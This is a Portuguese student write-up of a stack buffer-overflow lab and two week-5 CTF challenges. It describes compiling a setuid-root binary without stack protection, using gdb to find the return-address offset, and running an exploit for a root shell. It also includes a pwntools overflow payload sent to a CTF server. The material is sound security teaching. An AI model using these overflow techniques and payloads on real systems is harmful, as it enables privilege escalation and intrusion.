

# Task1: Getting familiar with ShellCode

### 3.4: Compilamos o programa usando o makefile e obtemos os dois binários.


### Ao correr ambos os ficheiros .out verificamos que ambos criam uma shell e que realizam as mesmas tarefas.


# Task2:Understanding the Vulnerable Program

### Usamos o ficheiro Makefile para compilar o programa com a vulnerabilidade.:
### -fno-stack-protector: desativa o stack-smashing-protector que possiblita a ocorrência de buffer-overflow no stack; 
### -z execstack: Permite executar código que está guardado na stack; 
### sudo chown root stack: Mudar o dono do programa para root;          
### sudo chmod 4755 stack: Liga o bit Set-UID.  


# Task3 Launching Attack on 32-bit Program(Level 1)

### Usamos o 'gdb stack-L1-dbg' para dar debug do ficheiro e criamos um breakpoint na função bof. Quando o gdb para dentro da função bof o registo ebp ainda não está a apontar para a stack frame atual. Se imprimissemos o valor do registo iamos obter o 'caller's ebp value.  


### Executamos o pograma.  


### Usamos a instrução next para quando pararmos o registo ebp apontar para o stack frame da função bof.



### Obtivemos os registos de memória do ebp e do buffer


### Calculamos a diferença entre os registos de memória do ebp e do buffer


### Preenchemos o que faltava no ficheiro exploit.py. Colocamos o start como 517-len(shellcode) porque queremos pôr o shellcode o mais para cima possível.No valor do ret tinhamos de colocar algo que estivesse no meio da zona dos NOP's, como essa zona é a cima do ebp e nós temos esse valor fomos somando números a esse valor incrementando de 4 em 4 tendo sido 72 o primeiro a funcionar. No offset colocamos 112 porque é o valor obtido no passo anterior ao qual somamos 4 bytes tendo assim a diferença entre o inicio do buffer e o RA.


### Depois de ajustar o ficheiro exploit.py criamos um ficheiro badfile 'touch badfile' corremos o ficheiro python e o ficheiro stack-L1 e obtivemos uma shell.


# CTF Semana 5

## Desafio 1

### O checksec estava já disponivel no site:

```
    $ checksec program
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

### De uma analise do programa concluimos que o buffer tem um tamanho de 20 byters mas o input pode ir até 28 podendo ser suscetivel a um buffer overflow.  Podemos então indicar quaisquer 20 caracteres e depois nos 8 restantes o ficheiro que queremos que seja aberto "flag.txt". Como a variavel meme_file é declarada antes da variavel bufferna pilha de memória e tem exatamente 8 bytes o que coincide com os 8 byter restantes poderá sobscrever essa variável lendo o ficheiro que nós colocarmos no input.

### Fizemos isso e obtivemos o seguinte resultado:


## Desafio 2

### De uma analise do programa concluimos que o programa é semelhante ao anterior. Tendo uma defesa extra que passa por mais um buffer com uma variável que é verificada no  decorrer do programa para ver se foi alterada.
### O buffer tem apenas 20 caracteres na mesma sobrando exatamente 8 para o ficheiro e 4 para o val, seguindo a mesma lógica do Desafio 1, modificamos o ficheiro exploit-example.py:

```
    #!/usr/bin/python3
    from pwn import *

    DEBUG = False

    if DEBUG:
        r = process('./program')
    else:
        r = remote('ctf-sp.dcc.fc.up.pt', 4000)

    r.recvuntil(b":")
    r.sendline(b"aaaaaaaaaaaaaaaaaaaa\x23\x22\xfc\xfeflag.txt")
    r.interactive()
```

### Ao correr este ficheiro python obtivemos a flag como output:


